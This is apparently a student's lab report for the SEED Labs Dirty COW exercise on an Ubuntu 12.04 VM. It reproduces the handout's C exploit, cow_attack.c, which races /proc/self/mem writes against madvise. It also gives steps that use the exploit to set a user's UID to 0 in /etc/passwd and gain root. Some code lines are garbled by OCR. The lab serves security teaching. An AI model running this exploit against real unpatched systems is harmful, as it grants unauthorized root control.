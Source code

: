 
# SEEDlabs: Dirty COW Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the  Linux  kernel  since  September  2007,  and  was  discovered  and  exploited  in  October  2016. The vulnerability affects all Linux-based operating systems, including Android, and its consequence is very severe: attackers can gain the root privilege by exploiting the vulnerability. The  vulnerability  resides  in  the  code  of  copy-on-write  inside  Linux  kernel.  By  exploiting  this vulnerability, attackers can modify any protected file, even though these files are only readable to them.

The objective of this lab is for you to gain the hands-on experience on the Dirty COW attack, understand the race condition vulnerability exploited by the attack, and gain a deeper understanding  of  the  general race condition security  problems.  In  this  lab, you will  exploit the Dirty COW race condition vulnerability to gain the root privilege. Note:  This  lab  is  based  on  the  Ubuntu12.04  VM.  If  you  are  currently  using  a  newer  Linux version,  such  as  Ubuntu16.04,  the  vulnerability  has  already  been  patched.  Therefore, to complete this lab please use the Ubuntu 12.04 VM.

## 2 Task 1: Modify a Dummy Read-Only File
The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

## 2.1 Create a Dummy File
We first need to select a target file. Although this file can be any read-only file in the system, we will use a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please create a file called zzz in the root directory using the root account, change its permission  to  read-only for normal users, and put some random content into the file using an editor such as gedit.

```sh
$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz 111111222222333333
$ ls -l /zzz
$ -rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
$ bash: /zzz: (*@Permission denied@*)
```

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail, because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the system, we can find a way to write to this file. Our objective is to replace the pattern "222222" with "******".


I followed the steps above as you can see below. 
```sh
[11/27/21]seed@VM:~$ setxkbmap tr
[11/27/21]seed@VM:~$ sudo touch /zzz
[11/27/21]seed@VM:~$ sudo chmod 644 /zzz
[11/27/21]seed@VM:~$ sudo gedit /zzz
[11/27/21]seed@VM:~$ ls -l /zzz
-rw-r--r-- 1 root root 19 Nov 27 18:49 /zzz
[11/27/21]seed@VM:~$ echo 99999 > /zzz
bash: /zzz: Permission denied
```


## 2.2 Set Up the Memory Mapping Thread

You  check  the  program  cow  attack.c  for  this  lab.  The  program  has  three  threads:  the  main 
thread, the write thread, and the madvise thread. The main thread maps /zzz to memory, finds 
where  the  pattern  "222222"  is,  and  then  creates  two  threads  to  exploit  the  Dirty  COW  race 
condition vulnerability in the OS kernel.

```sh
/* cow_attack.c (the main thread) */
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
#define OFFSET 5
#define TARGET_CONTENT " I have successfully Attacked!! "
void *map;
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  // Open the file in read only mode. int 
  f=open("/zzz", O_RDONLY);
  // Open with PROT_READ.
  fstat(f, &st);
  map=mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, NULL); (*@Line 1@*)
  pthread_create(&pth2, NULL, writeThread, TARGET_CONTENT); (*@Line 2@*)
  // Wait for the threads to finish. 
  pthread_join(pth1, NULL); 
  pthread_join(pth2, NULL);
  return 0;
}
```
In the above code, we start two threads: madviseThread (Line À) and writeThread (Line `)

```sh
[11/27/21]seed@VM:~$ sudo gedit cow_attack.c
[11/27/21]seed@VM:~$ gcc attack.c -lpthread
[11/27/21]seed@VM:~$ a.out
[11/27/21]seed@VM:~$ cat /zzz


```

## 2.3 Set Up the write Thread

The job of the write thread listed in the following is to replace the string "222222" in the memory 
with  "******".  Since  the  mapped  memory  is  of  COW  type,  this  thread  alone  will  only  be  able  to 
modify the contents in a copy of the mapped memory, which will not cause any change to the 
underlying /zzz file.

```sh
/* cow_attack.c (the write thread) */
void * writeThread(void *arg)
{
  char *content= (char*) arg;
  char current_content[10];
  int f=open("/proc/self/mem", O_RDWR); while(1) 
  {
    //Set the file pointer to the OFFSET from the beginning lseek(f, (uintptr_t) 
    map + OFFSET, SEEK_SET); write(f, content, strlen(content));
  }
}
```

## 2.4 The madvise Thread

The madvise thread does only one thing: discarding the private copy of the mapped memory, so 
the page table can point back to the original mapped memory.

```sh
/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
  while(1){
    madvise(map, 100, MADV_DONTNEED);
  }
}
```

## 2.5 Launch the Attack

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only 
after the other is finished, the write operation will always be performed on the private copy, and 
we  will  never  be  able  to  modify  the  target  file.  The  only  way  for  the  attack  to  succeed  is  to 
perform the madvise() system call while the write() system call is still running. We cannot always 
achieve that, so we need to try many times. As long as the probability is not extremely low, we 
have  a  chance.  That  is  why  in  the  threads,  we  run  the  two  system  calls  in  an  infinite  loop. 
Compile the cow attack.c and run it for a few seconds. If your attack is successful, you should 
be able to see a modified /zzz file. Report your results in the lab report and explain how you are 
able to achieve that.

```sh
$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...
```

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose 
the  /etc/passwd  file  as  our  target  file.  This  file  is  world-readable,  but  non-root  users  cannot 
modify it. The file contains the user account information, one record for each user. Assume that 
our user name is seed . The following lines show the records for root and seed:

```sh
root:x:0:0:root:/root:/bin/bash 
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
```

Each  of  the  above  record  contains  seven  colon-separated  fields.  Our  interest  is  on  the  third 
field,  which  specifies  the  user  ID  (UID)  value  assigned  to  a  user.  UID  is  the  primary  basis  for 
access control in Linux, so this value is critical to security. The root user’s UID field contains a 
special value 0; that is what makes it the superuser, not its name. Any user with UID 0 is treated 
by the system as root, regardless of what user name he or she has. The seed user’s ID is only 
1000, so it does not have the root privilege. However, if we can change the value to 0, we can 
turn it into root. We will exploit the Dirty COW vulnerability to achieve this goal.
In our experiment, we will not use the seed account, because this account is used for most of 
the  experiments  in  this  book;  if  we  forget  to  change  the  UID  back  after  the  experiment,  other 
experiments will be affected. Instead, we create a new account called charlie, and we will turn 
this normal user into root using the Dirty COW attack. Adding a new account can be achieved 
using  the  adduser  command.  After  the  account  is  created,  a  new  record  will  be  added  to 
/etc/passwd. See the following:

```sh
$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie 
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash
```

We suggest that you save a copy of the /etc/passwd file, just in case you make a mistake and 
corrupt  this  file.  An  alternative  is  to  take  a  snapshot  of  your  VM  before  working  on  this  lab,  so 
you can always roll back if the VM got corrupted.
Task:  You  need  to  modify  the  charlie’s  entry  in  /etc/passwd,  so  the  third  field  is  changed  from 
1001  to  0000,  essentially  turning  charlie  into  a  root  account.  The  file  is  not  writable  to  charlie, 
but  we  can  use  the  Dirty  COW  attack  to  write  to  this  file.  You  can  modify  the  cow  attack.c 
program from Task 1 to achieve this goal.
After your attack is successful, if you switch user to charlie, you should be able to see the # sign 
at the shell prompt, which is an indicator of the root shell. If you run the id command, you should 
be able to see that you have gained the root privilege.

```sh
seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
(uid=0(root)) gid=1001(charlie) groups=0(root),1001(charlie)
```


